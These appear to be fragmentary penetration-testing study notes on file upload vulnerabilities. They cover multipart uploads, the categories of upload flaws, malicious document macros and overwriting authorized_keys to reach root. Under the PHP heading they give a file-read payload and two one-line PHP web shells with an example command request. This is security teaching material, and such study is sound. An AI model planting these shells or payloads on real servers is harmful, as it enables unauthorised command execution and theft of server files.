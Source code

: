 # File Upload

When submitting HTML forms, the browser typically sends the provided data in a POST request with the content type `application/x-www-form-url-encoded`. This is fine for sending simple text like your name or address. However, it isn't suitable for sending large amounts of binary data, such as an entire image file or a PDF document. In this case, the content type `multipart/form-data` is preferred.

MIME Type (RFC 6838)



When testing a file upload form, we should always determine what happens when a file is uploaded twice.
If the web application indicates that the file already exists, we can use this method to brute force the contents of a web server.
Alternatively, if the web application displays an error message, this may provide valuable information such as the programming language or web technologies in use.






We can group File Upload vulnerabilities into three categories:
- vulnerabilities enabling us to upload files that are executable by the web application
- vulnerabilities that require us to combine the file upload mechanism with another vulnerability, such as Directory Traversal
- the third category relies on user interaction. For example, when we discover an upload form for job applications, we can try to upload a CV in `.docx` format with malicious macros429 integrated


































## PHP
`<?php echo file_get_contents('/path/to/target/file'); ?>`
Once uploaded, sending a request for this malicious file will return the target file's contents in the response.

A more versatile web shell may look something like this:

`<?php echo system($_GET['command']); ?>`
`<?php echo system($_GET['cmd']); ?>`
This script enables you to pass an arbitrary system command via a query parameter as follows: `GET /example/exploit.php?command=id HTTP/1.1`

















## Using Non-Executable Files

Example:
Connect as root with our private key due to the overwritten authorized_keys file. Facing a scenario in which we can’t use a file upload mechanism to upload executable files, we’ll need to get creative to find other vectors we can leverage.

We should be aware, that blindly overwriting files in a real-life penetration test could result in lost data or costly downtime of a production system. 











